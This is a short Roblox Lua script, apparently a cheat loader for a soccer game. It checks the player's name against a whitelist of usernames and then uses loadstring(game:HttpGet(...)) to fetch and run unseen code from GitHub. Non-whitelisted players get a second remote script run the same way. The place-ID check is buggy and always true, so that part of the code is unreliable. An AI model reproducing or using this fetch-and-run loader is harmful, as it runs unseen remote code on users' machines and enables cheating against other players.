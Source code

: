 local whitelist = {
    "Arda1420",
    "Arda1420",
    "Arda1420",
    "Tpsciawain", --me
    "Arda1420",
    "Arda1420",
    "qazztr",
    "Arda1420",
    "Arda1420",
    "Arda1420",
    "Arda1420",
    "Arda1420",
    "Arda1420",
    "Arda1420",
    "Arda1420",
    "EFREWFTEWT" -- giveaway winner
}

if table.find(whitelist, game.Players.LocalPlayer.Name) then
        local id = game.PlaceId
if id == 335760407 or 13762482705 then
game.StarterGui:SetCore("SendNotification",{
			Title = "Loading...";
			Text = "Loading will take some seconds...";
			Duration = 5;
})
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/level/main/README.md"))()
else
    game.Players.LocalPlayer:Kick("It's not TPS SS!")
end
else
    loadstring(game:HttpGet("https://raw.githubusercontent.com/ArdaAkpinar/kicked1/main/README.md"))();
end
